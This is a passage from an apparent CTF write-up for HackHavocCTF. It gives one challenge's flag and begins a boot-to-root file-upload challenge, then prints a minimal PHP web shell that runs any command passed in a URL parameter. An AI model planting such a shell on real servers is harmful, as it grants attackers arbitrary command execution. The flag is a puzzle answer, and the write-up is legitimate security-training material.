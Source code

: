 ![12](../assets/posts/HackHavocCTF/12.png)

Please don’t ask me where the `cybermaterialhavoc` came from.

![13](../assets/posts/HackHavocCTF/13.png)

Flag: `CM{CyberMaterial_World's_Best_Cybersecurity_Data_Platform}`

## Boot2Root

### **Hacker's Fortress**

**Description**:

In this boot-to-root exercise, participants will need to leverage their skills in file uploading and privilege escalation to uncover a hidden flag. The challenge simulates a real-world scenario where unauthorized access to a server must be achieved to find sensitive information.

Author: **`DarkUnic0rn`**

`http://35.208.110.64`

It’s a quite nice file-upload vulnerability.

```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
